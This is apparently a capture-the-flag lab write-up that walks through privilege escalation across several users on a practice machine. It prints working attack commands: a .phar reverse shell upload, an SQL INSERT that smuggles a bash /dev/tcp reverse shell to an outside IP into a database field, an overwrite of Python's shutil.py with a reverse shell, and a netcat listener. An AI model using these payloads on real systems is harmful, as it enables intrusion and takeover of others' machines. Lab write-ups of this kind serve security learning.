 # Privilege Escalation Steps

## 1. Search for a Directory
- Log in as the `admin` user with the password `password`.
- Upload a reverse shell with a `.phar` extension and execute it to gain a shell.

## 2. Search for `test.py` in the `/opt` Directory
- Find `test.py` in the `/opt` directory.
- Gained access as the `lucien` user.

## 3. Escalate via MySQL
- Check the `.bash_history` of the `lucien` user.
- Login to MySQL and inject a reverse shell payload into the `library` database in the `dreams` table. Use this SQL command:
  ```sql
  INSERT INTO dreams (dreamer, dream) 
  VALUES ('root', '$(echo "/bin/bash -i >& /dev/tcp/10.17.11.3/9999 0>&1" | bash)');

```

- Execute the payload as the `death` user (after verifying `sudo -l` permissions) to get a shell as `death`.

## 4. Escalate via `restore.py`

- Locate the `restore.py` file in the `morpheus` user's home directory.
- Modify the Python library in `/usr/lib/python3.8/shutil.py` to include a reverse shell. Use this command:
- ```echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/127.0.0.1/9001 0>&1'\")" > /usr/lib/python3.8/shutil.py
- Wait for `restore.py` to be executed as the `morpheus` user. It will import the payload from `shutil.py` and give you a reverse shell as `morpheus`.

---

### Key Points

- **Reverse Shell**: Always ensure the reverse shell listener is active on your machine (e.g., with `nc -lvnp 9999`).
- **MySQL Injection**: The reverse shell payload inserted into the `library` database will execute when the `death` user runs the query.
- **Python Payload**: The `restore.py` file will execute the reverse shell if the script is triggered, giving you a reverse shell as `morpheus`.
- done.

